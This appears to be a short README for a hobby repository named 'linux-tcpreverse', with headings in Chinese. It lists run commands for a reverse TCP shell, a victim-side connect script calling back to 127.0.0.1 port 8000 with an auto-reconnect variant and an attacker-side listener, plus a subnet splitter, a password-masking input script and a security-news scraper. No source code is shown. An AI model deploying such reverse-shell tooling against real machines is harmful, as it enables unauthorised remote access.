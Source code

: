 # linux-tcpreverse
## 受害端反連:

python connect.py 127.0.0.1 8000

python connect1.py (斷線自動連線)
## 攻擊端開啟連線:

python reversetcp.py '' 8000

python reversetcp1.py (美化)

## 切ip網段

python ip.py

## 在cmd上將輸入字改成*****

passwordshield.py

## ithome爬新聞+browser headless

parser_ithome_security.py
